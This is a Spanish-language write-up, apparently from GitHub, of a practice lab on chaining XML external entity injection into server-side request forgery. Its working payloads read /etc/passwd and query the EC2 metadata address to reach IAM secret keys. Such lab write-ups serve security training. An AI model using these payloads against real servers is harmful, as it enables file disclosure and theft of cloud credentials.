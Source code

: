 # Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 📝 Introducción

Este laboratorio simula un escenario realista en entornos de nube, donde una aplicación web vulnerable a **XXE (XML External Entity injection)** es explotada para realizar un ataque de tipo **SSRF (Server-Side Request Forgery)** contra el **endpoint de metadatos de una instancia EC2 de AWS**.

La funcionalidad vulnerable es `Check stock`, la cual acepta entradas en formato XML, las analiza mediante un parser no seguro, y refleja parte del contenido procesado en la respuesta. Esto habilita la inyección de entidades externas (`<!ENTITY>`), que pueden ser utilizadas para hacer que el servidor realice solicitudes HTTP internas arbitrarias.

El servidor tiene habilitado el endpoint de metadatos en `http://169.254.169.254/`, una dirección IP reservada que las instancias EC2 usan para acceder a datos sensibles como credenciales de IAM, configuración de red, o el hostname. Si el servidor permite resolver entidades externas desde esta dirección, un atacante puede extraer credenciales sensibles directamente.

---

### 🎯 Objetivo

Explotar la vulnerabilidad **XXE → SSRF** para acceder al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` y recuperar la **clave secreta del IAM role** asignado a la instancia, resolviendo así el laboratorio.


Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/e11d3138-8859-4bfb-b15a-0b72d2b0dd89)

Accedemos al detalle de un producto haciendo click en `View details`:
![image](https://github.com/user-attachments/assets/f8676e22-e348-4666-8e8f-bb4c9ff61c31)

El laboratorio nos habla de una funcionalidad `Check store` que parsea input XML, por lo que accedemos a la funcionalidad `Check store` para analizarla haciendo click en el botón `Check stock`, el cual nos devuelve 108 unidades de stock:
![image](https://github.com/user-attachments/assets/bfd2357c-f5e2-47fb-a189-1cc909c57489)


Al igual que en el laboratorio anterior, estamos enviando información a través de XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
El servidor responde con 108, lo que indica que interpreta y procesa correctamente el XML enviado.

Indicios:

- El servidor está procesando directamente el contenido XML que el cliente envía, lo cual es el punto de partida para probar inyecciones de entidades externas.

- No hay evidencias de validación ni sanitización del XML.

- Si el servidor usa un parser vulnerable que permite entidades externas, podríamos intentar algo como:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "test"> ]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

Enviamos la petición al `Repeater` y vemos cómo se comporta el servidor al enviarle el payload anterior:
![image](https://github.com/user-attachments/assets/3031e57e-bffd-4f0e-a56d-0a4a52b08c02)

En este caso estamos definiendo un `DTD` que contiene una entidad interna `test` con el valor "test".
Aunque en este ejemplo **no estamos utilizando la entidad `&test;` dentro del XML**, esto **sirve como prueba inicial** para verificar si el servidor acepta la inclusión de un `DOCTYPE`. Esto puede revelar si:

- El parser XML está configurado para **procesar DTDs internos**.
- Existen **controles de seguridad que bloqueen la definición de entidades** (por ejemplo, filtros WAF).
- Se producen errores de parsing, lo cual podría indicar una **superficie vulnerable a ataques XXE**.


El siguiente paso es confirmar si el servidor resuelve y expande entidades, por lo que referenciaremos la entidad:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "XXE Working"> ]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/user-attachments/assets/1140da8b-d780-4aaa-9076-d4c39cb7e114)

El servidor respondió `"Invalid product ID: XXE Working"`, esto prueba que:

- El parser XML aceptó la definición <!ENTITY>.

- La entidad `&test;` fue resuelta correctamente.

- El contenido de la entidad fue inyectado dinámicamente en el valor del productId.

- El servidor reflejó ese valor en la respuesta.

Este es un ejemplo de XXE clásico tipo “data disclosure”, donde un atacante podría en lugar de "XXE Working", ingresar una entidad externa, por ejemplo:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la request en Burp Suite:
![image](https://github.com/user-attachments/assets/4b8b1e99-7d54-4b7e-80e3-db38386875a5)

Esta captura confirma de forma indiscutible que se explotó exitosamente una vulnerabilidad de tipo XML External Entity - File Disclosure.

Este comportamiento muestra:

- Que el parser XML está mal configurado (no tiene desactivado el procesamiento de entidades externas).

- Que no hay validación ni filtrado del contenido XML por parte del backend.

- Que un atacante puede leer archivos arbitrarios del servidor (Local File Disclosure).

Hata ahora la resolución viene siendo idéntica al laboratorio anterior, este es el momento de buscar la explotación de un SSRF como pide el enunciado, podríamos intentar utilizar el siguiente payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la respuesta del servidor:
![image](https://github.com/user-attachments/assets/fd80c448-f166-462b-8b7d-c969593f014e)





